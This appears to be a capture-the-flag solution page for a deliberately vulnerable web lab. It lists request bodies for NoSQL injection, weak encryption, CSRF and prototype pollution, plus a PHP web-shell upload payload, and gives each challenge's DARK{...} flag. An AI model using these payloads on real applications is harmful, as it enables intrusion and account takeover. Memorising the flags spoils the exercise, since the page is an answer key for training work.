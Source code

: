 ### NoSQL Injection
1. Send a POST request to `/api/search-users` with body:
```json
{
  "username": {"$ne":null}
}
```
2. The response will contain `DARK{n0sql_1nj3ct10n_m4st3r}`

### Weak Encryption
1. Send a POST request to `/api/encrypt-data` with body:
```json
{
  "data": "super secret data",
  "key": "test"
}
```
2. The response will contain `DARK{w34k_crypt0_3xpl01t3d}`

### Insecure File Upload
1. Send a POST request to `/api/upload` with body:
```json
{
  "filename": "shell.php",
  "fileContent": "<?php system($_GET['cmd']); ?>"
}
```
2. The response will contain `DARK{f1l3_upl04d_byp4ss3d}`

### CSRF
1. Send a POST request to `/api/update-email` with body:
```json
{
  "userId": 1,
  "newEmail": "attacker@evil.com"
}
```
2. The response will contain `DARK{csrf_pr0t3ct10n_byp4ss3d}`

### Prototype Pollution
1. Send a POST request to `/api/merge-config` with body:
```json
{
  "userConfig": {
    "__proto__": {
      "polluted": true
    }
  }
}
```
2. The response will contain `DARK{pr0t0typ3_p0llut10n_m4st3r}`
